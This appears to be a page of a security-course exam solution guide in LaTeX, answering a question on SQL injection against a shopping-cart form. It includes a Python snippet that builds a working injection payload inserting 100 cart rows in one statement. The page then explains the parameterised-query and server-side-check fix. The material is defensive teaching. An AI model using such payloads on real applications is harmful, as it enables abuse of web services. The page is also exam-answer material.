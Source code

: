 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{Verbatim}[breaklines=true,breakanywhere=true,fontsize=\small,frame=single,rulecolor=\color{PanelBorder}]
from urllib.parse import urlencode
S = "ALICES_ACTUAL_SESSION_TOKEN"
extra = ",".join("('" + S + "','pen')" for _ in range(99))
item = "pen')," + extra + " -- "
body = urlencode({"item": item})
\end{Verbatim}

Send \texttt{body} in an \texttt{application/\allowbreak{}x-www-form-urlencoded} POST to the cart’s existing add-item endpoint,\allowbreak{} with Alice’s normal session cookie. The resulting SQL is:



\begin{Verbatim}[breaklines=true,breakanywhere=true,fontsize=\small,frame=single,rulecolor=\color{PanelBorder}]
INSERT INTO cart(session,item) VALUES
('S','pen'),('S','pen'), ... 100 total tuples ... -- ')
\end{Verbatim}

The illustration assumes a database supporting multi-row VALUES and \texttt{--} comments,\allowbreak{} and Alice knows her own session value. The question does not supply a literal endpoint name. The original three-item UI restriction is bypassed because a single backend call inserts many rows.


\textbf{Prevent SQL injection} with \texttt{INSERT INTO cart(session,\allowbreak{}item) VALUES (?,\allowbreak{}?)} and bound values. Enforce the \textbf{business rule} independently: check the resulting cart quantity server-side,\allowbreak{} using a transaction/\allowbreak{}locking or an appropriate database constraint so concurrent requests cannot bypass it. A client-side limit is insufficient even after SQL injection is fixed.



{\color{ForestGreen}\textbf{Exam tip.} Count 1 original row + 99 injected rows. “Only one SQL statement” does not prevent this; no semicolon or stacked statement is needed.}




\clearpage
\subsection{S41 · 2020–21 · Q5(b)}\label{s41}

\textbf{Single-statement SQL injection in a password-change form · 10 marks}


Original: \href{../../CSE405-Security_Merged.pdf\#page=19}{root question PDF,\allowbreak{} page 19}. Sitting date: 25 September 2022. Printed Section B.
\end{document}
